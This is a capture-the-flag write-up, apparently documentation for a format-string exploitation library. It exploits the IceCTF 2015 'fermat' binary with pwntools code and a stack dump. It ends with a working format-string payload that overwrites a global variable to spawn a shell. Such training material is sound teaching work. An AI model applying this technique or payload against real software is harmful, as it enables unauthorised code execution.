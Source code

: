 ###################
IceCTF 2015: Fermat
###################

********
Overview
********
The fermat challenge takes in an arugment on the command line, then simply
prints it back out to the console using printf (thus the format string
vulnerability). After printing it out, it checks for the value of a global
variable named ``secret``. If this variable equals the value 1337, then it
gives you a shell.

A difference with this challenge is that, since your input is coming from the
command line argument, ASLR and space make it difficult to utilize that buffer
to provide addresses for your format string vulnerability. It likely still
would have been doable to use that buffer had it not been for the fact that
this application runs once then exits, thus re-randomizing the space. My guess
is that was an intentional design decision.

Example::

  $ ./fermat %x
  ff961fa4


*********
Game Plan
*********
For this challenge, we will set up ``FormatString`` as usual. However, we will
then look at the stack. Finally, we will use ``FormatString`` to write the
required value to the spot in memory.


****************
Step 1: exec_fmt 
****************
The first step in using the ``FormatString`` class is to create an exec_fmt
function. This function will take in any arbitrary input, pass that input into
the application properly, parse the results and return the results back. At
this point, we're not worried about exploiting the vulnerability, we're simply
interacting with the program.

.. code-block:: python

  def exec_fmt(s):
      global p
      print("executing: " + repr(s))
      #  Open up pwntool process class to interact with application
      p = process(["./fermat",s],buffer_fill_size=0xffff)
      # Get the output
      out = p.recvall()
      return out


This one is actually a little bit messy since there's no good way to know ahead
of time if the process will exit or not in an automated manner. That said, we
can take the exploit code generated and run it manually at the end.


*************************
Step 2: Instantiate Class
*************************
Next, we need to instantiate a FormatString class. This can be done strait
forward. To make it simpler, we'll also open an ``ELF`` class on the exe.

.. code-block:: python

  from formatStringExploiter.FormatString import FormatString
  from pwn import *
  
  # Load the binary in pwntools. This way we don't need to worry about the
  # details, just pass it to FormatString
  elf = ELF("./fermat")
  
  # Now, instantiate a FormatString class, using the elf and exec_fmt functions
  fmtStr = FormatString(exec_fmt,elf=elf)

You will see some data scroll. This is the FormatString class attempting to
discover your buffer for you. Notice that in this case ``FormatString`` is
unable to find the buffer. However, during all that scrolling, ``FormatString``
will have figured out enough about the stack to provide us assistance in
exploitation.


*************************
Step 3: Examine the Stack
*************************
This step isn't strictly necessary. At this point, ``FormatString`` understands
the layout of the stack. However, the human running it may not. If you wanted
to, you could jump to step 4 and everything would still work. However, the
stack view is helpful in many cases when you want a quick understanding of what
the stack looks like.

Run the printStack method::

  In [1]: fmtStr.printStack()
  +-------+------------+-------------------------+
  | Index |   Value    |          Guess          |
  +-------+------------+-------------------------+
  |   1   | 0xffb2b574 |                         |
  |   2   | 0xfffb0530 |                         |
  |   3   | 0xf75d2c0b |                         |
  |   4   | 0xf77933dc |                         |
  |   5   | 0x804821c  |                         |
  |   6   | 0x804852b  |                         |
  |   7   | 0x804a02c  |      Symbol: secret     |
  |   8   | 0xf7782000 |                         |
  |   9   | 0xf76c9000 |                         |
  |   10  |    0x0     |                         |
  |   11  | 0xf753c637 |                         |
  |   12  |    0x2     |                         |
  |   13  | 0xffc64a04 |                         |
  |   14  | 0xffb97e20 |                         |
  |   15  |    0x0     |                         |
  |   16  |    0x0     |                         |
  |   17  |    0x0     |                         |
  |   18  | 0xf76ce000 |                         |
  |   19  | 0xf771cc04 |                         |
  |   20  | 0xf77a7000 |                         |
  |   21  |    0x0     |                         |
  |   22  | 0xf775b000 |                         |
  |   23  | 0xf7771000 |                         |
  |   24  |    0x0     |                         |
  |   25  | 0xa2e514a1 |                         |
  |   26  | 0x8da6966  |                         |
  |   27  |    0x0     |                         |
  |   28  |    0x0     |                         |
  |   29  |    0x0     |                         |
  |   30  |    0x2     |                         |
  |   31  | 0x80483b0  |      Symbol: _start     |
  |   32  |    0x0     |                         |
  |   33  | 0xf773ef10 |                         |
  |   34  | 0xf7750780 |                         |
  |   35  | 0xf77ee000 |                         |
  |   36  |    0x2     |                         |
  |   37  | 0x80483b0  |      Symbol: _start     |
  |   38  |    0x0     |                         |
  |   39  | 0x80483d1  |                         |
  |   40  | 0x80484e5  |       Symbol: main      |
  |   41  |    0x2     |                         |
  |   42  | 0xff9b6164 |                         |
  |   43  | 0x8048520  | Symbol: __libc_csu_init |
  |   44  | 0x8048590  | Symbol: __libc_csu_fini |
  |   45  | 0xf76fa780 |                         |
  |   46  | 0xffdc069c |                         |
  |   47  | 0xf7763918 |                         |
  |   48  |    0x2     |                         |
  |   49  | 0xffe17ca4 |                         |
  |   50  | 0xff9bfcad |                         |
  |   51  |    0x0     |                         |
  |   52  | 0xff934cbb |                         |
  |   53  | 0xffdd7cdc |                         |
  |   54  | 0xff86dd10 |                         |
  |   55  | 0xffc48d3c |                         |
  |   56  | 0xffac4d5c |                         |
  |   57  | 0xff91cd7c |                         |
  |   58  | 0xff9fbd91 |                         |
  |   59  | 0xffbe1da3 |                         |
  |   60  | 0xff884db4 |                         |
  |   61  | 0xffafedc2 |                         |
  |   62  | 0xffda015e |                         |
  |   63  | 0xff87a169 |                         |
  +-------+------------+-------------------------+

Notice that up towards the top, ``FormatString`` has identified the symbol
``secret``. This is the symbol that we would like to overwrite with a value.
Since the required pointer is already on the stack, ``FormatString`` can
utilize that pointer for a write without needing it's own buffer offset.


***********************
Step 4: Write the Value
***********************
Let's go ahead and write the required value to this variable. From a user
perspective, the hope is that this is transparent. In this case it indeed is.
You can simply tell ``FormatString`` that you'd like to write to the address of
symbol ``secret`` and give it the value, and in the background it determines
that it can do this through reusing an existing pointer on the stack.

.. code-block:: python

  fmtStr.write_word(elf.symbols['secret'],0x539)

As mentioned above, the exec_fmt function isn't perfect in this case and will
end up killing the new shell before we can access it. Many ways around this,
one simple one is to simply re-use the same format string line that
``FormatString`` used, instead manually. I got this from the output of the
above command::

  %1337c%007$hnJJJ

For example the following would spawn the shell::

  $ ./fermat '%1337c%007$hnJJJ'


*********
Resources
*********
* `fermat <https://github.com/ctfs/write-ups-2015/blob/9b3c290275718ff843c409842d738e6ef3e565fd/icectf-2015/binary/fermat/fermat?raw=true>`_
* `fermat.py <https://raw.githubusercontent.com/Owlz/formatStringExploiter/master/docs/examples/fermat.py>`_
* `fermat github <https://github.com/ctfs/write-ups-2015/tree/9b3c290275718ff843c409842d738e6ef3e565fd/icectf-2015/binary/fermat>`_
